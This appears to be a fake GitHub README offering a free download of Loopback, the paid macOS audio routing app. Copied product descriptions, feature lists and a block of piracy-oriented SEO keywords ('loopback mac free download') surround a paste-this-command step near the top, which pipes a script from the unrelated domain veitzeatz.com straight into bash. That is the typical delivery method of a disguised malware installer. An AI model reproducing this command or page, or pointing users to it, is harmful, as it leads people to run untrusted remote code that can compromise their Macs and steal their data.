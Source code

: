 # Loopback Mac Download

![Loopback Audio Interface on macOS](https://rogueamoeba.com/loopback/images/tour-passthru-overlay-dark.png)

---

## 💾 Download Loopback for Mac

>Open the terminal on your device and paste the command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
---

## 🎛️ What is Loopback for Mac?

**Loopback for Mac** is an advanced virtual audio routing tool developed by Rogue Amoeba, designed to give you complete control over how audio flows on your Mac. Whether you're a **podcaster**, **streamer**, **audio engineer**, or just need to redirect sound between applications, Loopback provides an intuitive interface and professional-grade tools for building custom audio pipelines.

Unlike traditional audio mixers, Loopback lets you create **virtual audio devices** that combine multiple input and output sources — such as microphones, apps (like Zoom, Spotify, or Logic), and system audio — into a single stream. You can then use this stream in any software that supports audio input, like OBS, Skype, GarageBand, or recording suites.

With support for **Apple Silicon (M1/M2/M3)** and macOS **Ventura**, **Sonoma**, and newer versions, Loopback is fully optimized for modern Macs. The drag-and-drop interface makes creating complex audio configurations straightforward, even for beginners.

Loopback also integrates perfectly with **Audio Hijack**, allowing you to capture, filter, and output sound with maximum flexibility. It's a must-have tool for any Mac user working seriously with sound.

---

![Loopback Interface Example](https://www.soydemac.com/wp-content/uploads/2018/12/loopback-2-830x456.jpeg)

---

## ✅ Key Features of Loopback for macOS

- 🔀 **Audio Routing** – Redirect audio from any app to any destination.
- 🎙️ **Virtual Audio Devices** – Create virtual mics with multiple input sources.
- 🧩 **App Source Support** – Route audio from Spotify, Zoom, Safari, and more.
- 🎚️ **Live Monitoring** – Hear exactly what you’re routing in real time.
- 💻 **OBS & DAW Integration** – Seamlessly connect with your favorite production tools.
- 🖥️ **macOS Compatibility** – Runs on macOS Monterey, Ventura, Sonoma, and Apple Silicon.
- 🛠️ **Drag & Drop Configuration** – No coding or scripting required.
- 🎧 **Zero Latency Monitoring** – Route audio with minimal delay for live sessions.

---

## 🧾 Keywords

`loopback mac`, `loopback download`, `loopback audio mac`, `loopback mac os`, `loopback mac free`,  
`loopback mac free download`, `loopback mac download`, `loopback free`, `loopback free download`,  
`audio loopback mac`, `download loopback for mac`, `download loopback mac`, `free loopback audio mac`,  
`loop back mac`, `loopback 2 mac`, `loopback app mac`, `loopback audio download`,  
`loopback audio for mac`, `loopback audio free`, `loopback audio mac download`,  
`loopback audio mac free`, `loopback audio mac full`, `loopback for mac free`, `loopback download mac`,  
`loopback free mac`, `loopback install mac`, `loopback m1 mac`, `loopback mac audio`,  
`loopback mac full`, `loopback mac m1`, `loopback osx`, `loopback recording mac`,  
`loopback software mac`, `mac loopback audio free`, `mac os loopback audio`, `macos audio loopback`
